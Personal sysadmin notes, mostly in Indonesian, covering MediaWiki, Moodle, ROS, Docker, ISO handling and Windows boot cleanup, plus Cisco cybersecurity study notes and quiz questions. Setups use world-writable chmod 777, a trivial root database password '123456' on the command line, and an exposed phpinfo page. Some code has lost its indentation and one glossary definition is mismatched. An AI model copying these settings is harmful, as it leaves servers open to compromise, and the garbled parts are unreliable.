The following command is very much similar to above two commands, the only difference is here, that we disabling login shell to a user called ‘avishek‘ with custom User ID (i.e. 1019). Here ‘-s‘ option adds the default shell /bin/bash, but in this case we set login to ‘/usr/sbin/nologin‘. That means user ‘avishek‘ will not able to login into the system.
useradd -m -d /var/www/avishek -s /usr/sbin/nologin -c "TecMint Sr. Technical Writer" -u 1019 avishekAdd a User without Home Directory, No Shell, No Group and Custom Comment This following command is very different than the other commands explained above. Here we used ‘-M‘ option to create user without user’s home directory and ‘-N‘ argument is used that tells the system to only create username (without group). The ‘-r‘ arguments is for creating a system user.
useradd -M -N -r -s /bin/false -c "Disabled TecMint Member" claytonReplikasi Mediawiki https://lms.onnocenter.or.id/wiki/ ubuntu 20.04, khusus mediawiki-1.32.0
server :
install mediawiki :
buat tempat menyimpan keperlannya
mkdir /var/data
mkdir /var/data/library
mkdir /var/data/library/datawiki
sudo apt update
sudo apt-get install apache2 php php-xmlrpc php-mysql php-gd php-cli php-curl mysql-client mysql-server libphp-adodb libgd-dev php-pear php-common libapache2-mod-php php-fpm php-bz2 php-xml imagemagick git php-mbstring
service apache2 stop
service apache2 start
sudo locale-gen id_ID.UTF-8
buat database mediawiki (aku lewat phpmyadmin) -> kasih nama mediawiki
download & install mediawiki :
cd /var/data/library/datawiki/
wget https://releases.wikimedia.org/mediawiki/1.32/mediawiki-1.32.0.tar.gz
tar zxvf mediawiki-1.32.0.tar.gz
mv mediawiki-1.32.0 wiki
cp wiki /var/www/html/
cp -Rf /var/www/html/wiki/mw-config/ /var/www/html/wiki/config
chmod a+w /var/www/html/wiki/mw-config
chmod a+w /var/www/html/wiki/config
chmod -Rf 777 wiki
chown -Rf www-data.www-data wiki
/etc/init.d/apache2 restart
lanjut install di web :
*catatan : Database Prefix -> wiki_
download LocalSettings.php, taruh di file bersama wiki/index.php
cd ~/Downloads
mv LocalSettings.php /var/www/html/wiki/
chmod 777 /var/www/html/wiki/LocalSettings.php
lanjut di terminal
cd /var/data/library/datawiki/
# yg kepakai cuman wikidb.sql.tar.gz & images.tar.gz, jadi kyknya cuman download itu aja
wget http://onnocenter.or.id/pustaka/datawiki/wikidb.sql.tar.gz -O /var/data/library/datawiki/wikidb.sql.tar.gz
wget http://onnocenter.or.id/pustaka/datawiki/wikidb.sql -O /var/data/library/datawiki/wikidb.sql
wget http://onnocenter.or.id/pustaka/datawiki/wikidb.xml -O /var/data/library/datawiki/wikidb.xml
wget http://onnocenter.or.id/pustaka/datawiki/wikidb.xml.tar.gz -O /var/data/library/datawiki/wikidb.xml.tar.gz
wget http://onnocenter.or.id/pustaka/datawiki/images.tar.gz -O /var/data/library/datawiki/images.tar.gz
tar zxvf images.tar.gz
tar zxvf wikidb.sql.tar.gz
cp -Rf /var/data/library/datawiki/var/www/html/wiki/images /var/www/html/wiki/
chown -Rf www-data.www-data /var/www/html/wiki
service mysql stop
service mysql start
/usr/bin/mysqladmin --user=root --password=123456 --force drop mediawiki
/usr/bin/mysqladmin --user=root --password=123456 create mediawiki
mysql -u root -p123456 mediawiki < /var/www/wiki/html/maintenance/tables.sql
mysql -u root -p123456 mediawiki < /var/data/library/datawiki/var/www/html/pustaka/datawiki/wikidb.sql
service mysql stop
service mysql start
cd /var/www/html/wiki/maintenance
php update.php
service mysql stop
service mysql start
chown -Rf nobody.nogroup /var/data
chmod -Rf 777 /var/data
refresh web nya, done
Moodle
Install Moodle Server Lokal
masuk server : (asumsi sudah terinstall apache2, mysql, phpmyadmin)
sudo su
apt update
apt -y install software-properties-common
add-apt-repository ppa:ondrej/php
apt update
apt -y install php
apt -y install php-common php-mysql php-xml php-xmlrpc php-curl php-gd php-imagick php-cli php-dev php-imap php-mbstring php-opcache php-soap php-zip php-cli php-intl imagemagick git zip libgd-dev libapache2-mod-php
lalu
vi /etc/php/<versi>/apache2/php.ini
lalu
upload_max_filesize = 100M
post_max_size = 48M
memory_limit = 512M
max_execution_time = 600
max_input_vars = 3000
max_input_time = 1000
systemctl restart apache2.servicevi /var/www/html/phpinfo.php<?php phpinfo( ); ?>buat database moodle (aku lwat phpmyadmin)
mkdir -p /var/moodledata/lang
cd /var/moodledata/lang
wget https://download.moodle.org/download.php/direct/langpack/3.8/id.zip
unzip id.zip
chmod -Rf 777 /var/moodledata/lang/
chown -Rf www-data: /var/moodledata/lang/
cd /home/user/
# wget https://download.moodle.org/download.php/direct/stable38/moodle-latest-38.tgz
wget https://download.moodle.org/download.php/stable310/moodle-3.10.1.tgz
tar zxvf moodle-3.10.1.tgz
mv moodle /var/www/html/
cd /var/www/html/
chown -Rf www-data: /var/moodledata/
chmod -Rf 777 /var/www/html/moodle
chown -Rf www-data: /var/www/html/moodlelanjut instalalsi di web
-
*catatan :
Data Directory /var/moodledata/
next...
full course : http://wiki.ros.org
ROS Melodic Ubuntu 18.04
Installasi
sudo sh -c 'echo "deb http://packages.ros.org/ros/ubuntu $(lsb_release -sc) main" > /etc/apt/sources.list.d/ros-latest.list'
sudo apt-key adv --keyserver 'hkp://keyserver.ubuntu.com:80' --recv-key C1CF6E31E6BADE8868B172B4F42ED6FBAB17C654
sudo apt update
sudo apt install ros-melodic-desktop-full
echo "source /opt/ros/melodic/setup.bash" >> ~/.bashrc
source ~/.bashrc
sudo apt install python-rosdep python-rosinstall python-rosinstall-generator python-wstool build-essential
sudo rosdep init
rosdep update
ROS Tutorial
Managing Environtment :
printenv | grep ROS
# dijalankan setiap open terminal
source /opt/ros/melodic/setup.bash
Create ROS Workspace :
mkdir -p ~/catkin_ws/src
cd ~/catkin_ws/
catkin_make
# jika akan menggunakan python
catkin_make -DPYTHON_EXECUTABLE=/usr/bin/python3
source devel/setup.bashcek apakah shell path sudah termuat :
$ echo $ROS_PACKAGE_PATH
# /home/youruser/catkin_ws/src:/opt/ros/kinetic/shareROS Noetic Ubuntu 20.04
Installasi
sudo sh -c 'echo "deb http://packages.ros.org/ros/ubuntu $(lsb_release -sc) main" > /etc/apt/sources.list.d/ros-latest.list'
sudo apt-key adv --keyserver 'hkp://keyserver.ubuntu.com:80' --recv-key C1CF6E31E6BADE8868B172B4F42ED6FBAB17C654
sudo apt update
sudo apt install ros-noetic-desktop-full
source /opt/ros/noetic/setup.bash
echo "source /opt/ros/noetic/setup.bash" >> ~/.bashrc
source ~/.bashrc
sudo apt install python3-rosdep python3-rosinstall python3-rosinstall-generator python3-wstool build-essential
sudo rosdep init
rosdep update
Install ROS Melodic & Opencv Ubuntu 18.04
1. Install ROS Melodic :
sudo sh -c 'echo "deb http://packages.ros.org/ros/ubuntu $(lsb_release -sc) main" > /etc/apt/sources.list.d/ros-latest.list'
sudo apt-key adv --keyserver 'hkp://keyserver.ubuntu.com:80' --recv-key C1CF6E31E6BADE8868B172B4F42ED6FBAB17C654
sudo apt update
sudo apt install ros-melodic-desktop-full
echo "source /opt/ros/melodic/setup.bash" >> ~/.bashrc
source ~/.bashrc
sudo apt install python-rosdep python-rosinstall python-rosinstall-generator python-wstool build-essential
sudo rosdep init
rosdep updatemkdir -p ~/catkin_ws/src
cd ~/catkin_ws
catkin_make
echo "source ~/catkin_ws/devel/setup.bash" >> ~/.bashrc
source ~/.bashrc
# Install rosbridge-suite
sudo apt-get install ros-melodic-rosbridge-server
sudo apt-get install cmake-qt-gui
sudo apt-get install libfontconfig1-dev libdbus-1-dev libfreetype6-dev libudev-dev libicu-dev libsqlite3-dev libxslt1-dev libssl-dev libasound2-dev libavcodec-dev libavformat-dev libswscale-dev libgles2-mesa-dev libxcb-icccm4-dev libxcb-image0-dev libxcb-keysyms1-dev libxcb-xinerama0-dev libprotobuf-dev libleveldb-dev libsnappy-dev libhdf5-serial-dev protobuf-compiler libopenblas-dev liblapack-dev libopenblas-dev liblapack-dev libgflags-dev libgoogle-glog-dev liblmdb-dev cmake cmake-gui gfortran liblapack-dev libblas-dev libatlas-base-dev libarpack2-dev libarpack++2-dev5. Clone contoh project :
cd ~/Download
git clone https://github.com/fpt-corp/ROS_Package_example.gitcd ~/Download/opencv
mkdir build8.
-
browse source -> opencv
browse build -> build
configure
generate
cd ~/Download/opencv/build
make -j16
sudo make installcd ~/Download/ROS_Package_example/
# copy semua folder ke ~/catkin_ws/src/12.
cd ~/catkin_ws/
catkin_make
roslaunch lane_detect lane_detect.launchHapus Dual/Triple/dst Boot dari Windows
! pastikan hapus dulu disk partisi dari pc manager
- buka cmd as administrator
diskpartlist disk
jika cuman masang 1 disk, maka pilih disk 0
jika masang >1 disk, maka pilih disk yg sub bagiannya mau dihapusselect disk 0list volume
pilih yg infonya 'system'
misal didapat info system pada volume 4select volume 4assign letter=zexitz:dircd efidirrmdir /S <yg_mau_dihapus>
misal :rmdir /S ubuntuexit- (restart PC)
Membuat File ISO
Misalnya,
-
CD atau DVD terdapat di /media/cdrom atau /dev/cdrom
File iso akan di simpan di folder /folder/
Nama file iso adalah file.iso
dd if=/dev/cdrom of=/folder/file.isoKalau ingin ada progress bar
dd bs=4M if=path/to/archlinux.iso of=/dev/sdx status=progress oflag=syncFile iso tampaknya tidak peduli format yang digunakan sebelum-nya. Kita dapat dengan mudah membuat file iso dari,
-
CD / DVD Installer Linux
CD / DVD Installer Windows atau Aplikasi Windows
CD lagu
DVD film
Teknik ini menjadi sangat baik untuk mem-backup CD atau DVD
Menempelkan file iso ke sebuah folder
Jika anda mempunyai file iso dan ingin menempelkan (mount) ke file system. Misalnya,
-
File iso akan di simpan di folder /folder/
Nama file iso adalah file.iso
Folder tempat menempelkan adalah /mnt/tempel
mkdir /mnt/tempel
mount -t iso9660 -o loop /folder/file.iso /mnt/tempelUntuk melihat apakah sudah ter-mount-ing dengan baik, lakukan
ls /mnt/tempel
dir /mnt/tempelatau cara lain
mkdir tes
sudo mount -o loop my-iso-image.iso tes
Verify :
mount
# or `df -H` or `ls -l tes`
Unmount :
sudo umount tes
Docker
sumber :
Content List
gambar :
Pengeertian Umum
https://aws.amazon.com/id/docker/
Docker adalah platform perangkat lunak yang memungkinkan Anda membuat, menguji, dan menerapkan aplikasi dengan cepat. Docker mengemas perangkat lunak ke dalam unit standar yang disebut kontainer yang memiliki semua yang diperlukan perangkat lunak agar dapat berfungsi termasuk pustaka, alat sistem, kode, dan waktu proses. Dengan menggunakan Docker, Anda dapat dengan cepat menerapkan dan menskalakan aplikasi ke lingkungan apa pun dan yakin bahwa kode Anda akan berjalan.
https://www.niagahoster.co.id/blog/docker-tutorial/
Docker adalah aplikasi open source untuk menyatukan file-file yang dibutuhkan sebuah software sehingga menjadi menjadi satu kesatuan yang lengkap dab berfungsi. Data pengaturan dan file pendukung disebut sebagai image. Selanjutnya kumpulan image digabung dalam satu wadah yang disebut Container.
Docker merupakan solusi dari permasalahan yang kerap dialami para developer untuk mengembangkan aplikasi mereka agar bisa berjalan fleksibel di berbagai lingkungan.
Docker menjadi perhatian para developer sejak tahun 2013, diperkenalkan oleh Solomon Hykes dalam acara PyCon US. Beberapa waktu setelahnya, Docker dirilis pertama kali pada bulan Juni tahun 2014. Docker dikembangkan oleh Solomon bersama rekannya Andrea Luzzardi dan Francois-Xavier Bourlet. Pada saat itu Docker merupakan proyek internal dotCloud. Hasilnya, saat ini Docker sudah menjadi platform populer di lingkungan para developer di berbagai belahan dunia meskipun belum terlalu populer di Indonesia.
Docker sendiri merupakan sebuah perusahaan yang menyediakan layanan platform kontainer.
Kemampuan yang dimiliki Docker yaitu mampu menjalankan berbagai macam aplikasi dengan konfigurasi sistem yang berbeda-beda, meskipun masih dalam satu perangkat komputer atau server.
Fitur Docker
https://www.niagahoster.co.id/blog/docker-tutorial/
Berikut ini adalah fitur Docker yang bisa Anda gunakan sesuai dengan kebutuhan.
- Docker Engine, digunakan untuk membangun Docker images dan membuat kontainer Docker.
- Docker Hub, registry yang digunakan untuk berbagai macam Docker images
- Docker Compose, digunakan untuk mendefinisikan aplikasi menggunakan banyak kontainer Docker.
- Docker untuk Mac, memungkinkan menjalankan kontainer Docker pada Mac.
- Docker untuk Linux, memungkinkan menjalankan kontainer Docker pada Linux.
- Docker untuk Windows, memungkinkan menjalankan kontainer Docker pada Windows.
Cara kerja
https://aws.amazon.com/id/docker/
Docker berfungsi dengan menyediakan cara standar untuk menjalankan kode Anda. Docker adalah sistem operasi untuk kontainer. Mirip dengan cara mesin virtual memvirtualisasi (menghilangkan kebutuhan untuk secara langsung mengelola) perangkat keras server, kontainer memvirtualisasi sistem operasi server. Docker diinstal di setiap server dan memberikan perintah sederhana yang dapat Anda gunakan untuk membuat, memulai, atau menghentikan kontainer.
https://www.niagahoster.co.id/blog/docker-tutorial/
Untuk lebih memahami Docker, sebaiknya Anda mengetahui cara kerja Docker. Ada beberapa komponen yang perlu Anda ketahui:
- Docker image, merupakan file berisi informasi dan petunjuk untuk membangun container. Image juga berfungsi untuk menggunakan dan mengirimkan informasi;
- Container, adalah lingkungan untuk mengemas dan menjalankan aplikasi. Ini mencakup kode, runtime, system tools, dan pengaturan. Container hanya bisa mengakses resource yang telah ditentukan dalam docker image;
- Docker client, yaitu tempat di mana pengguna dapat mengirimkan perintah seperti docker build, docker pull, dan docker run kepada Docker daeomon;
- Docker Engine Rest API, digunakan untuk berinteraksi dengan Docker daemon. Ini bisa diakses klien melalui HTTP;
- Docker host, menyediakan lingkungan yang lengkap untuk menjalankan aplikasi. Dia bertanggung jawab terhadap penerimaan perintah yang diberikan Docker client;
- Docker daemon, yaitu proses pengelolaan Docker images, kontainer, network, dan storage volumes. Docker daemon menerima request dari Docker API dan akan memprosesnya;
- Docker registry, wadah untuk menyimpan Docker image. Docker image akan memberi reaksi sesuai perintah yang diberikan. Misalnya saat diberi perintah docker push, docker image akan didorong atau dibagikan ke registri Docker Hub;
- Docker Hub adalah layanan yang disediakan untuk menemukan dan berbagi gambar container dengan tim.
Kapan menggunakan Docker
https://aws.amazon.com/id/docker/
Anda dapat menggunakan kontainer Docker sebagai blok penyusun inti yang menciptakan aplikasi dan platform modern. Docker mempermudah pembuatan dan menjalankan arsitektur layanan mikro terdistribusi, menerapkan kode Anda dengan pipeline integrasi dan pengiriman berkelanjutan yang terstandardisasi, membangun sistem pemrosesan data dengan skalabilitas yang tinggi, dan membuat platform yang sepenuhnya dikelola untuk pengembang Anda.
Install : Ubuntu 20.04
apt -y install curl
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo apt-key adv --keyserver keyserver.ubuntu.com --recv-keys 7EA0A9C3F273FCD8
sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
sudo apt update
apt-cache policy docker-ce
cek status
sudo apt install -y docker-ce
sudo systemctl status docker
Membuat agar tidak perlu sudo lagi
sudo usermod -aG docker ${USER}
su - ${USER}
id -nG
Atau secara explisit menambahkan username ke group docker
sudo usermod -aG docker username
Perintah Docker
docker [option] [command] [arguments]
docker
docker docker-subcommand --help
docker info
Menggunakan Docker Image
sudo docker run hello-world
sudo docker search ubuntu
sudo docker pull ubuntu
sudo docker run ubuntu
sudo docker images
Run Docker Container
Tambahkan -it untuk interactive shell access
sudo docker run -it ubuntu
Managing Docker
sudo docker ps
sudo docker ps -a
sudo docker ps -l
sudo docker start 9b0db8a30ad1 (9b0db8a30ad1 adalah container-id)
sudo docker stop xenodochial_neumann
sudo docker rm youthful_roentgen
Istilah
sumber : https://id.wikipedia.org/wiki/Daemon
*Daemon
Daemon (Inggris: daemon) (IPA: /'deɪmən/ atau /'dimən/[1]) adalah program komputer yang berjalan di latar belakang (berlawanan dengan program yang dapat dikontrol langsung) yang melakukan beberapa tugas tanpa intervensi dari pengguna. Daemon pada umumnya dimulai pada saat proses pengebutan sebagai proses, seperti halnya perangkat lunak lainnya. Contoh dari daemon adalah telnet daemon, yang terus berjalan di latar belakang, dan menunggu permintaan koneksi dari pengguna klien telnet. Telah menjadi konsensus untuk memberi nama suatu daemon dengan nama yang diakhiri oleh huruf "d" (diambil dari huruf pertama daemon), contohnya syslogd, daemon yang menangani log sistem; sshd, daemon yang menangani koneksi SSH), dan juga HTTPd yang merupakan daemon yang menjawab permintaan dari klien yang dilakukan melalui peramban web.
Dalam lingkungan sistem operasi mirip Unix, proses parent dari sebuah daemon adalah init (PPID=1). Daemon, pada umumnya menggunakan protokol Remote Procedure Call (RPC) untuk membuka koneksi dengan klien.
Windows
Dalam keluarga Windows, service memiliki konsep yang sama dengan daemon. Service berjalan sebagai sebuah proses, umumnya tidak berinteraksi dengan papan kunci, monitor dan tetikus, serta pada umumnya prosesnya dimulai pada saat pengebutan.
Tips Random
Python
import sys
for i in range(0,16):
for j in range(0,16):
code = str(i*16+j)
sys.stdout.write(u"\u001b[38;5;" + code + "m " + code.ljust(4))
print u"\u001b[0m"
import sys
for i in range(0,16):
for j in range(0,16):
code = str(i*16+j)
sys.stdout.write(u"\u001b[48;5;" + code + "m " + code.ljust(4))
print u"\u001b[0m"
import time
def loading():
print "loading..."
for i in range(0, 100):
time.sleep(0.03)
sys.stdout.write(u"\u001b[1000D" + str(i+1) + "%")
sys.stdout.flush()
print
loading()
import time, sys
def loading():
print "loading..."
for i in range(0, 100):
time.sleep(0.03)
width = (i+1)/4
bar = "[" + "#" * width + " " * (25 - width) + "]"
sys.stdout.write(u"\u001b[1000D" + bar)
sys.stdout.flush()
print
loading()
terminal kayak parrot :
nano ~/.bashrc
edit PS1 :
PS1="\[\033[0;31m\]\342\224\214\342\224\200\$([[ \$? != 0 ]] && echo \"[\[\033[0;31m\]\342\234\227\[\033[0;37m\]]\342\224\200\")[$(if [[ ${EUID} == 0 ]]; then echo '\[\033[01;31m\]root\[\033[01;33m\]@\[\033[01;96m\]\h'; else echo '\[\033[0;39m\]\u\[\033[01;33m\]@\[\033[01;96m\]\h'; fi)\[\033[0;31m\]]\342\224\200[\[\033[0;32m\]\w\[\033[0;31m\]]\n\[\033[0;31m\]\342\224\224\342\224\200\342\224\200\342\225\274 \[\033[0m\]\[\e[01;33m\]\\$\[\e[0m\]"
edit PS1 di root :
sudo su
nano /root/.bashrc
edit PS1 :
PS1="\[\033[0;31m\]\342\224\214\342\224\200\$([[ \$? != 0 ]] && echo \"[\[\033[0;31m\]\342\234\227\[\033[0;37m\]]\342\224\200\")[$(if [[ ${EUID} == 0 ]]; then echo '\[\033[01;31m\]root\[\033[01;33m\]@\[\033[01;96m\]\h'; else echo '\[\033[0;39m\]\u\[\033[01;33m\]@\[\033[01;96m\]\h'; fi)\[\033[0;31m\]]\342\224\200[\[\033[0;32m\]\w\[\033[0;31m\]]\n\[\033[0;31m\]\342\224\224\342\224\200\342\224\200\342\225\274 \[\033[0m\]\[\e[01;33m\]\\$\[\e[0m\]"
Setting mendadak rusak saat hapus
sudo apt-get remove unity-control-center
sudo apt-get install unity-control-center
jika ada lagi yg rusak, maka : (jika benar-benar urgent)
sudo apt-get install ubuntu-desktop
git graph
git log --all --decorate --oneline --graph
atau buat command graph
alias graph="git log --all --decorate --oneline --graph"Ujian
Kosong
Cisco Introduction to Cyber Security
Chapter 1: The Need for Cybersecurity
Materi
cybersecurity :
-
ongoing effort to protect networked systems connected to the Internet and to protect all of the data from unauthorized use or harm
confidentiality, integrity, and availability :
-
a large network of physical objects including sensors and equipment
confidentiality :
-
also called privacy, which means that data access is restricted to authorized personnel only
methods to ensure confidentiality :
-
data encryption, username ID and password, two factor authentication, etc.
integrity :
-
the term that indicates accuracy, consistency, and trustworthiness of the data
methods to ensure integrity :
-
file permissions, user access control, version control, and checksums
availability :
-
the term that describes the services and data being well maintained and able to be be accessed all the time
internal security threats :
-
attacks originating from within an organization
external security threats :
-
attacks originating from ouside of an organization
white hat attackers :
-
persons or organizations that break into networks or computer systems to discover weaknesses with the intention to improve the security of these systems
black hat attackers :
-
persons or organizations that take advantage of any vulnerability for illegal personal, financial, or political gain
organized attackers :
-
organizations of cyber criminals, hacktivists, terrorists, and state-sponsored hackers
cyberwarfare :
-
an Internet-based conflict that involves the penetration of computer systems and networks of other nations
Stuxnet :
-
a malware program designed to damage the nuclear enrichment plant of Iran, a program which is an example of a state-sponsored attack
International Multilateral Partnership Against Cyber Threats (IMPACT) :
-
a global partnership of world governments, industries, and academia dedicated to improving global capabilities when dealing with cyber threats
ethics :
-
codes of behavior that are sometimes, but not always, enforced by laws
Quiz :
-
Which statement describes cyberwarfare?
- Cyberwarfare is an attack carried out by a group of script kiddies.
- It is a series of personal protective equipment developed for soldiers involved in nuclear war.
- It is Internet-based conflict that involves the penetration of information systems of other nations.
- It is simulation software for Air Force pilots that allows them to practice under a simulated war scenario.
-
What are three methods that can be used to ensure confidentiality of information? (Choose three.)
- data encryption
- username ID and password
- version control
- two factor authentication
- backup
- file permission settings
-
What is another name for confidentiality of information?
- consistency
- trustworthiness
- accuracy
- privacy
-
What is a reason that internal security threats might cause greater damage to an organization than external security threats?
- Internal users have better hacking skills.
- Internal users can access the infrastructure devices through the Internet.
- Internal users have direct access to the infrastructure devices.
- Internal users can access the corporate data without authentication.
-
What is the motivation of a white hat attacker?
- fine tuning network devices to improve their performance and efficiency
- taking advantage of any vulnerability for illegal personal gain
- studying operating systems of various platforms to develop a new system
- discovering weaknesses of networks and systems to improve the security level of these systems
-
Match the type of cyber attackers to the description. (Not all options are used.)
- gather intelligence or commit sabotage on specific goals on behalf of their government
- state-sponsored attackers
- make political statements in order to create an awareness of issues that are important to them
- hacktivists
- make political statements, or create fear, by causing physical or psychological damage to victims
- terrorist
- gather intelligence or commit sabotage on specific goals on behalf of their government
-
Which method is used to check the integrity of data?
- authentication
- backup
- checksum
- encryption
-
What three items are components of the CIA triad? (Choose three.)
- integrity
- intervention
- access
- confidentiality
- scalability
- availability
-
What is an example of "hacktivism"?
- A teenager breaks into the web server of a local newspaper and posts a picture of a favorite cartoon character.
- Criminals use the Internet to attempt to steal money from a banking company.
- A country tries to steal defense secrets from another country by infiltrating government networks.
- A group of environmentalists launch a denial of service attack against an oil company that is responsible for a large oil spill